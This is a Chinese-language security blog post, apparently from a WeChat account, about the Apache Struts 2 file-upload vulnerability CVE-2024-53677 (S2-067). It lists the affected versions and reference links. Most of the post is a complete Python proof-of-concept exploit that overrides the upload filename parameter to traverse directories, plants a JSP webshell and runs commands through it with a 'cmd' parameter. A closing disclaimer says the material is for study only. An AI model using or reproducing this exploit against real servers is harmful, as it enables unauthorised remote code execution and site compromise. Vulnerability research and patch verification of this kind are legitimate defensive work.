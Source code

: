 #  CVE-2024-53677｜Apache Struts 2（S2-067）远程代码执行漏洞（POC）   
alicy  信安百科   2024-12-21 10:15  
  
**0x00 前言**  
  
  
Apache Struts 2是一个用于开发Java EE网络应用程序的开放源代码网页应用程序架构。它利用并延伸了Java ServletAPI，鼓励开发者采用MVC架构。  
  
  
  
**0x01 漏洞描述**  
  
  
Apache Struts的文件上传逻辑中存在漏洞，若代码中使用了FileUploadInterceptor，当进行文件上传时，攻击者可能构造恶意请求利用目录遍历等上传文件至其他目录。如果成功利用，攻击者可能能够执行远程代码、获取敏感数据、破坏网站内容或进行其他恶意活动。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-53677  
  
  
  
**0x03 影响版本**  
  
****```
2.0.0 <= Struts <= 2.3.37（EOL）
2.5.0 <= Struts <= 2.5.33
6.0.0 <= Struts <= 6.3.0.2
```  
  
****  
  
**0x04 漏洞详情**  
  
****  
POC：  
```
https://github.com/TAM-K592/CVE-2024-53677-S2-067/blob/ALOK/S2-067.py
```  
  
```
import requests
import argparse
from urllib.parse import urljoin
from requests_toolbelt.multipart.encoder import MultipartEncoder
import random
import string
import os

def upload_file(target_url, upload_endpoint, file_paths, destination_path, allowed_types=None, allowed_extensions=None, simulate_i18n=False, execute_command=None):
    """
    Upload files to the target using parameter overwrite and path traversal.
    """
    upload_url = urljoin(target_url, upload_endpoint)
    print(f"[INFO] Uploading files to {upload_url}...")

    headers = {"User-Agent": "Mozilla/5.0"}

    for file_path in file_paths:
        with open(file_path, "rb") as f:
            file_content = f.read()

        fields = {
            "Upload": (os.path.basename(file_path), file_content, "text/plain"),
            "top.UploadFileName": destination_path,
        }

        if simulate_i18n:
            simulate_i18n_errors()

        # Simulate MIME type and extension restrictions
        if allowed_types:
            headers["Content-Type"] = allowed_types
        if allowed_extensions and not destination_path.endswith(tuple(allowed_extensions)):
            print(f"[WARNING] File extension {destination_path.split('.')[-1]} might not be allowed.")

        try:
            m = MultipartEncoder(fields=fields, boundary='----WebKitFormBoundary' + ''.join(random.choices("abcdefghijklmnopqrstuvwxyz1234567890", k=16)))
            headers["Content-Type"] = m.content_type

            response = requests.post(upload_url, headers=headers, data=m, timeout=10)
            if response.status_code == 200:
                print(f"[SUCCESS] File {os.path.basename(file_path)} uploaded successfully: {destination_path}")
                verify_uploaded_file(target_url, destination_path, execute_command)
            else:
                print(f"[ERROR] Upload failed for {os.path.basename(file_path)}. HTTP {response.status_code}")
        except requests.RequestException as e:
            print(f"[ERROR] Request failed for {os.path.basename(file_path)}: {e}")

def verify_uploaded_file(target_url, file_path, execute_command):
    """Verify if the uploaded file is accessible and optionally execute a command."""
    file_url = urljoin(target_url, file_path)
    print(f"[INFO] Verifying uploaded file: {file_url}")
    try:
        response = requests.get(file_url, timeout=10)
        if response.status_code == 200:
            print(f"[ALERT] File uploaded and accessible: {file_url}")
            if execute_command:
                execute_remote_command(file_url, execute_command)
        else:
            print(f"[INFO] File not accessible. HTTP Status: {response.status_code}")
    except requests.RequestException as e:
        print(f"[ERROR] Verification failed: {e}")

def execute_remote_command(file_url, command):
    """Execute a command on the uploaded WebShell."""
    command_url = f"{file_url}?cmd={command}"
    print(f"[INFO] Executing command: {command_url}")
    try:
        response = requests.get(command_url, timeout=10)
        if response.status_code == 200:
            print(f"[INFO] Command output:\n{response.text}")
        else:
            print(f"[ERROR] Command execution failed. HTTP Status: {response.status_code}")
    except requests.RequestException as e:
        print(f"[ERROR] Command execution failed: {e}")

def simulate_i18n_errors():
    """Simulate i18n file error handling scenarios."""
    errors = {
        "struts.messages.error.uploading": "Error uploading file.",
        "struts.messages.error.file.too.large": "The file size exceeds the maximum limit.",
        "struts.messages.error.content.type.not.allowed": "The file type is not allowed.",
        "struts.messages.error.file.extension.not.allowed": "The file extension is not allowed."
    }
    for key, message in errors.items():
        print(f"[I18N SIMULATION] {key}: {message}")

def predefined_paths():
    """Return a list of common test paths for path traversal."""
    return [
        "../../../../../webapps/ROOT/test.jsp",
        "/tmp/webshell.jsp",
        "/var/www/html/shell.jsp"
    ]

def main():
    parser = argparse.ArgumentParser(description="S2-067 Exploit - Testing Deprecated File Upload Interceptor with Multiple File Uploads")
    parser.add_argument("-u", "--url", required=True, help="Target base URL (e.g., http://example.com)")
    parser.add_argument("--upload_endpoint", required=True, help="Path to upload endpoint (e.g., /uploads.action)")
    parser.add_argument("--files", required=True, help="Comma-separated list of file paths to upload")
    parser.add_argument("--destination", required=True, help="Target destination path for uploaded files")
    parser.add_argument("--allowed_types", help="Simulated allowed MIME types (e.g., application/octet-stream)")
    parser.add_argument("--allowed_extensions", nargs="+", help="Simulated allowed file extensions (e.g., .jsp, .txt)")
    parser.add_argument("--simulate_i18n", action="store_true", help="Simulate i18n error handling scenarios")
    parser.add_argument("--execute", help="Command to execute on the uploaded file (e.g., whoami)")
    args = parser.parse_args()

    file_paths = args.files.split(",")
    upload_file(
        target_url=args.url,
        upload_endpoint=args.upload_endpoint,
        file_paths=file_paths,
        destination_path=args.destination,
        allowed_types=args.allowed_types,
        allowed_extensions=args.allowed_extensions,
        simulate_i18n=args.simulate_i18n,
        execute_command=args.execute
    )

if __name__ == "__main__":
    main()
```  
  
  
  
**0x05 参考链接**  
  
  
https://cwiki.apache.org/confluence/display/WW/S2-067  
  
  
https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-文件上传逻辑绕过-CVE-2024-53677-S2-067/  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-48307｜JeecgBoot SQL 注入漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485712&idx=1&sn=34d09311081e1ccdcc96464b3824f719&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-45318｜SonicWall SMA100 SSL-VPN缓冲区溢出漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485721&idx=1&sn=aa1125a603acdb5b911e5e35ea92b93c&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-37383｜Roundcube Webmail存储型XSS漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485685&idx=1&sn=838e54bc45cab050c38c37137d553fa1&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
